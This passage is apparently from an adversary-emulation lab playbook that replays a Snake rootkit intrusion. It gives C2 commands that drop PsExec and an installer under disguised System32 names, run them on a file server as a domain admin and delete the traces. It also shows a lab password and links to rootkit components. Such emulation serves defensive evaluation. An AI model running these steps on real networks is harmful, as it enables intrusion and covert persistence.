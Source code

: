 
### ☣️ Procedures

* Tasking the implant to download PsExec.

```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 4, "file": "PsExec.exe", "dest":"C:\\Windows\\System32\\file_svc_mgr.exe"}'
```

* Wait 1 minute and then run the following command to download the snake installer:

```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 4, "file": "installer_v2.exe", "dest":"C:\\Windows\\System32\\cmu_svc_v2.exe"}'
```

* Wait 1 minute before running the following command to execute PsExec as `EgleAdmin`, which will run the Snake installer on the file server `berzas (10.100.30.204)`:

```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "C:\\Windows\\System32\\file_svc_mgr.exe", "args":"\\\\berzas -accepteula -s -c C:\\Windows\\System32\\cmu_svc_v2.exe", "runas":"nk\\EgleAdmin"}'
```

:arrow_right: Go back to your RDP session to `Azuolas (10.100.40.103)` as `Egle`.

* Minimize the RDP window.

:arrow_right: RDP into `berzas` (`10.100.30.204`) as `EgleAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\EgleAdmin  | Producer1! |

* Close any spurious windows

* Open Edge and navigate to <https://www.google.com>. Perform a search on `File server configuration best practices`, but don't click on any results.

* Minimize the RDP window, keeping processes running.

:arrow_right: Check the Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server.

* Wait 1 minute before running the following command to remove files from `Azuolas (10.100.40.103)`:

```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 1, "command": "del /Q C:\\Windows\\System32\\file_svc_mgr.exe C:\\Windows\\System32\\cmu_svc_v2.exe"}'
```

### :moyai: Source Code

* [Snake Installer](../../Resources/Snake/SnakeInstaller/README.md)
  * [Privilege Escalation](../../Resources/Snake/SnakeInstaller/src/privesc/privesc.cpp#L180)
  * [Disable DSE and Load Rootkit](../../Resources/Snake/SnakeInstaller/src/main.cpp#L63)
  * [Start Snake Rootkit Driver](../../Resources/Snake/SnakeInstaller/src/driver/driver.cpp#L111)
* [Snake Rootkit](../../Resources/Snake/README.md)
  * [Driver](../../Resources/Snake/SnakeDriver/SnakeDriver/driver.c#L76)
  * [Function Hooking](../../Resources/Snake/SnakeDriver/SnakeDriver/hooks.c#L31)
    * [Infinity Hook](../../Resources/Snake/SnakeDriver/libinfinityhook/README.md)
  * [Drop DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/filesystem.cpp#L22)
  * [Trigger injection on network request](../../Resources/Snake/SnakeDriver/SnakeDriver/wfp.cpp#L276)
  * [Inject Usermodule DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/inject.cpp#L30)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution via cmd](../../Resources/Snake/UserModule/src/execute.cpp#L337)